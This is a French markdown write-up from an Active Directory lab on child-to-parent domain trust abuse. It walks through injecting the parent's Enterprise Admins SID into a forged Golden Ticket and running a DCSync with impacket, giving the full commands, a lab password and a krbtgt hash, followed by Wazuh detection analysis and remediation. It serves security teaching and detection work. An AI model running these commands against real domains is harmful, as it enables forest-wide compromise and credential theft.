




# ⚔️ Attaque 12 — Abus de trust inter-domaine (Child → Parent)

| | |
|---|---|
| **Catégorie** | Domain Trusts / Privilege Escalation |
| **MITRE ATT&CK** | [T1482](https://attack.mitre.org/techniques/T1482/) · [T1134.005](https://attack.mitre.org/techniques/T1134/005/) (SID History) |
| **Fiche théorique** | [`../../docs/07-domain-trusts/47-domain-trust-abuse.md`](../../docs/07-domain-trusts/47-domain-trust-abuse.md) |
| **Cible** | `sevenkingdoms.local` (PARENT · kingslanding · 192.168.56.10) via `north` (ENFANT) |
| **Compte attaquant** | `hacker` (**forgé**) — à partir du krbtgt de north |
| **Outil** | impacket — `lookupsid.py`, `ticketer.py`, `secretsdump.py` |
| **Statut détection Wazuh** | 🟡 Anomalie détectable (compte forgé visible) → Phase 6 |

---

## 1. 🧠 Description

> **Le concept en une phrase :** dans une forêt AD avec deux domaines liés, compromettre le domaine enfant suffit à compromettre le domaine parent — et toute la forêt — en injectant un SID de groupe Enterprise Admin dans un ticket forgé.

Le lab a deux domaines dans **une même forêt** : `sevenkingdoms.local` (**parent**, racine) et `north.sevenkingdoms.local` (**enfant**), reliés par un **trust parent-enfant** automatique.

**Comment fonctionnent les trusts :** un ticket Kerberos transporte les SID de tous les groupes de l'utilisateur. Quand l'utilisateur traverse le trust pour accéder à une ressource dans l'autre domaine, le DC du parent vérifie ces SID. Entre deux forêts distinctes, un **SID filtering** supprime les SID "étrangers". **Mais à l'intérieur d'une même forêt, ce filtrage est désactivé par conception** (les domaines d'une même forêt se font mutuellement confiance).

**La faille :**
1. On est admin du **domaine enfant** (on a le hash `krbtgt` de north via DCSync)
2. On forge un Golden Ticket pour le domaine enfant
3. Dans ce ticket, on **injecte le SID du groupe `Enterprise Admins` du parent** (`...-519`) via le champ SID History
4. Le parent ne filtre pas ce SID (même forêt) → **il nous traite comme Enterprise Admin**
5. On dump toute la forêt

→ **Un domaine enfant compromis = toute la forêt compromise.**

## 2. 🎯 Prérequis

- Le **hash krbtgt du domaine enfant** (`36e4a10f...`, volé au [DCSync](06-dcsync.md) de north)
- Le **SID du domaine enfant** (`S-1-5-21-3723572328-3115330327-3463884463`)
- Le **SID du domaine parent** (à récupérer)

## 3. 💻 Exécution

### Étape 1 — Récupérer le SID du domaine parent

```bash
lookupsid.py sevenkingdoms.local/tywin.lannister:powerkingftw135@192.168.56.10 0 | grep -i "Domain SID"
```

→ `Domain SID is: S-1-5-21-2914566735-1426177666-2979308302`

On ajoute `-519` pour obtenir le SID du groupe Enterprise Admins du parent.

### Étape 2 — Forger le ticket avec le SID Enterprise Admins injecté

```bash
ticketer.py -nthash 36e4a10f1c1e434b3726ff67dd815f9e \
  -domain-sid S-1-5-21-3723572328-3115330327-3463884463 \
  -domain north.sevenkingdoms.local \
  -extra-sid S-1-5-21-2914566735-1426177666-2979308302-519 \
  hacker
```

| Élément | Rôle |
|---------|------|
| `-nthash 36e4a10f...` | krbtgt de **north** (sceau du domaine enfant) |
| `-domain-sid ...463` | SID du domaine **north** (enfant) |
| `-extra-sid ...302-519` | 🚨 **SID Enterprise Admins du PARENT injecté** (SID History) |

→ crée `hacker.ccache`.



### Étape 3 — DCSync le domaine parent avec le ticket forgé

```bash
export KRB5CCNAME=hacker.ccache
secretsdump.py -k -no-pass -just-dc north.sevenkingdoms.local/hacker@kingslanding.sevenkingdoms.local
```

> ⚠️ **Point technique important :** le realm client doit être `north.sevenkingdoms.local` (là où vit le ticket forgé), pas `sevenkingdoms.local`. Kerberos fait alors le **renvoi cross-realm** via le trust. Se tromper de realm → `KDC_ERR_C_PRINCIPAL_UNKNOWN`.


## 4. 📤 Résultat

`hacker` (compte du domaine enfant **inexistant**) dump **tous les secrets du domaine parent** : `Administrator`, `krbtgt`, tous les comptes, les machines. Le hash de l'Administrator parent est **identique** à celui obtenu par [ADCS ESC1](08-adcs-esc1.md) — deux chemins différents menant au même résultat : **contrôle total de la forêt** 👑.

## 5. 🛡️ Détection dans Wazuh — 🟡 anomalie

| Recherche (DQL) | Résultat | Lecture |
|---|---|---|
| `data.win.system.eventID:4662` | **0 hit** | réplication (DCSync) non auditée sur le parent → **angle mort** |
| `data.win.eventdata.targetUserName:hacker` | **2 hits** 🚩 | **le compte forgé apparaît** sur le DC parent |
| `data.win.system.eventID:4769` | **56 hits** | tickets présents mais **noyés** dans le trafic normal |

**Les anomalies révélatrices (recherche b, sur kingslanding) :**
- 🚩 `targetUserName: hacker` = un compte qui **n'existe pas** dans l'AD du parent
- 🚩 `targetUserSid: ...-463-500` = RID 500 (Administrator) alors que le nom est `hacker` → **incohérence nom/SID**
- 🚩 `targetDomainName: NORTH...` accédant au **DC parent** → mouvement inter-domaine anormal







## 6. 🎓 Analyse & leçon

> **Le point culminant de la démonstration.** Cette attaque — la compromission d'une forêt entière depuis un seul domaine enfant — est **cryptographiquement valide et invisible aux règles classiques**. Elle ne se détecte que par les anomalies comportementales qu'elle laisse : un compte inexistant, une incohérence SID, un mouvement inter-domaine inhabituel.

**Ce qu'il faut retenir :**
- La **frontière de sécurité dans AD est la forêt, pas le domaine**. Un domaine enfant compromis = toute la forêt compromise. Si l'isolation est requise entre entités, il faut des forêts distinctes.
- Comme pour le Golden Ticket, les règles de signature sont impuissantes ici — seule la détection comportementale peut révéler l'attaque.
- C'est l'argument le plus fort pour la **Phase 6 (agent IA)** : les attaques les plus dévastatrices sont précisément celles que les règles ne peuvent pas attraper.

## 7. 🔧 Remédiation

- Protéger le hash `krbtgt` de **chaque** domaine — un domaine enfant compromis suffit à compromettre toute la forêt.
- Activer l'audit **4662** (réplication) sur tous les DC et surveiller les **comptes inexistants** + **incohérences nom-SID**.
- Considérer la **segmentation en forêts distinctes** si une vraie isolation de sécurité est requise entre entités.
- Surveiller les accès inter-domaines inhabituels (agent IA, Phase 6).

---

⬅️ Retour à l'[index des attaques](../03-attaques.md)
